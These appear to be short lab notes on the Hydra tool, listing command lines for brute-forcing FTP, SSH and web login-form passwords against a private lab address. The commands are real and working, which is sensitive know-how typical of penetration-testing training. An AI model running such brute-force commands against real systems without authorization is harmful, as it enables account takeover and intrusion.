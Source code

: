 
[hydra | Kali Linux Tools](https://www.kali.org/tools/hydra/)


### Basic command 

 
1. FTP Bruteforce

	```
	hydra -l user -P passlist.txt ftp://10.10.86.138
	```


2. SSH Bruteforce


	```
	﻿hydra -l <username> -P <full path to pass> 10.10.86.138 -t 4 ssh
	```

3. Bruteforce web credentials


```
	hydra -l <username> -P <wordlist> 10.10.86.138 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```


